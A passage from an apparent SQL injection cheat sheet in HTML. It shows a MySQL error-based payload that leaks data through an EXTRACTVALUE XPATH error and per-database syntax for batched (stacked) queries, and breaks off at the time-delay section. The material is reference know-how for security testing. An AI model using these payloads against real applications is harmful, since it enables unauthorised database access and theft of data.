                 <th>
                    MySQL
                </th>
                <td><code>
                    SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))<br>
                    <br>
                    &gt; XPATH syntax error: '\secret'
                </code></td>
            </tr>
        </table><h2 id="batched-or-stacked-queries">Batched (or stacked) queries</h2><p>
            You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
        </p><table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    Does not support batched queries.
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    QUERY-1-HERE; QUERY-2-HERE<br>
                    QUERY-1-HERE QUERY-2-HERE
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    QUERY-1-HERE; QUERY-2-HERE
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    QUERY-1-HERE; QUERY-2-HERE
                </code></td>
            </tr>
        </table><div class="highlightedarea">
            <h4>Note</h4>
            <p>
                With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
            </p>
        </div><h2 id="time-delays">Time delays</h2><p>
            You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
        </p><table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>